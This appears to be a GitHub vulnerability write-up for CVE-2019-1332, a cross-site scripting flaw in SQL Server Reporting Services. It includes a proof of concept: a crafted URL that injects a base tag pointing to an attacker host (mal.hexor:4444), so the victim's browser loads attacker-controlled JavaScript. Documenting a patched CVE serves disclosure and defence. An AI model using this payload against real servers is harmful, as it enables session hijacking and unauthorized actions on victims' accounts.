




# CVE-2019-1332: Microsoft SQL Server Reporting Services XSS Vulnerability

A cross-site scripting (XSS) vulnerability exists when Microsoft SQL Server Reporting Services (SSRS) does not properly sanitize a specially-crafted web request to an affected SSRS server. An attacker who successfully exploited the vulnerability could run scripts in the context of the targeted user. The attacks could allow the attacker to read content that the attacker is not authorized to read, execute malicious code, and use the victim's identity to take actions on the site on behalf of the user, such as change permissions and delete content.
<br/>
To exploit the vulnerability, an attacker would need to convince an authenticated user to click a specially-crafted link to an affected SSRS server.

<table>
	<tr>
		<th>Affected Products</th>
	</tr>
	<tr>
		<td>Power BI Report Server</td>
	</tr>
	<tr>
		<td>SQL Server 2017 Reporting Services</td>
	</tr>
	<tr>
		<td>SQL Server 2019 Reporting Services</td>
	</tr>
</table>

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1332).

### Proof Of Concept:

The vulnerability leverages insufficent URL sanitization in order to trigger a [Base Tag Hijacking attack](https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/base-tag-hijacking/), that potentialy results in arbitrary JavaScript code execution on the victim's browser via Cross-Site Scripting (XSS).

#### Step 1 - Identify Valid SSRS Page containing vulnerable JS Code 

In this case, the page of interest can be found at "http://\<IP\>/rapoarte/browse":

<br/>

Vulnerable JS code:


#### Step 2 - Crafting the Malicious URL

Example of malicious URL:
```
http://<IP>/&sol;mal.hexor:4444&sol;%2f..%2frapoarte%2fbrowse%2f''
```

- \&sol; == [HTML character entity reference](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references) of "/"
- mal.hexor:4444 == attacker's domain (mal.hexor) and port (4444)
- %2f..%2f == path traversal used bypass 404 response by "pointing" to a valid page
- rapoarte%2fbrowse%2f == valid page containing vulnerable JS

<strong>Note:</strong> %2f (URL encoding of "/") is used in order to not trigger browser processing of the URL as well as the JavaScript "split('/')" which would end the payload prematurely

#### Result

Resulting HTML:
```
...
<base href="//mal.hexor:4444/ " '="">
...
<script src="assets/js/oauth.js"></script>
...
```

This HTML forces the victim's browser to lookup the "oauth.js" resource on an attacker controlled server, in this case "http://mal.hexor:4444/assets/js/oauth.js".
<br/>
<strong>Note:</strong> In this example "mal.hexor" points to localhost (127.0.0.1).
<br/>

Resulting XSS:

<br/>

